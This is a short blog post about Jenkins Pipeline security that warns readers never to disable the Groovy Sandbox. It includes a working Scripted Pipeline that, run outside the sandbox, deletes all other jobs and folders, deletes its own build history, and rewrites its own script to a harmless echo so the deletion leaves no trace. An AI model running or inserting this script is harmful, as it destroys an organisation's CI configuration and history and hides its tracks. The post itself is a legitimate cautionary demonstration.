 ```yaml
---
layout: post
title: "Do not disable the Groovy Sandbox"
tags:
- pipeline
- jenkins
---
```



One of the things I have worked on this week has been documenting the
"In-process Script Approval" and some of sandboxing features in Jenkins
Pipeline. While waiting for some pull requests to be reviewed I had the thought
"how bad could disabling the sandbox be?"


The Groovy Sandbox is enabled by default, helping to protect the Jenkins
instance from scripts which are incompetent, malicious, or both. Being Jenkins,
naturally, if you want to purchase the ammunition, load the gun, and point it
directly at your foot, Jenkins _will_ let you shoot it.

![Disabling the Groovy Sandbox](/images/post-images/groovy-sandbox/unchecked-groovy-sandbox-on-pipeline.png)


What's the worst that could happen?

**VERY VERY BAD THINGS CAN HAPPEN**

**NEVER DISABLE THE GROOVY SANDBOX**

**DID YOU HEAR ME? IT'S A TERRIBLE TERRIBLE IDEA JUST DON'T DO IT**


With that disclaimer out of the way. Disabling the Groovy Sandbox means that a
Scripted Pipeline can access, and more importantly manipulate, Jenkins'
internal objects.

**VERY VERY BAD THINGS CAN HAPPEN**

**NEVER DISABLE THE GROOVY SANDBOX**

**DID YOU HEAR ME? IT'S A TERRIBLE TERRIBLE IDEA JUST DON'T DO IT**


Okay with that second, more important, disclaimer out of the way. I spent some
time thinking about "really, what _is_ the worst that could happen?"

Below is an example Pipeline which, if run outside of the Groovy Sandbox will:

* Delete every other Pipeline, Job, Folder, except itself
* Overwrite its own "Script" block with an innocuous `echo "Hello World"` script, with the sandbox enabled of course!
* Delete all previous Pipeline runs.
* Trigger a new run of itself to wipe out all of itself.

All from one little script!


    import org.jenkinsci.plugins.workflow.cps.CpsFlowDefinition

    @NonCPS
    def hulkSmash() {
        Jenkins.instance.items.each { 
            if (it.name != env.JOB_NAME) {
                it.delete()
            }
            else {
                it.definition = new CpsFlowDefinition('echo "Hello World"', true)
                it.save()
                it.builds.each { f -> f.delete() }
            }
        }
    }

    hulkSmash()
    build job: env.JOB_NAME


Suffice it to say, **never ever** disable the Groovy Sandbox.
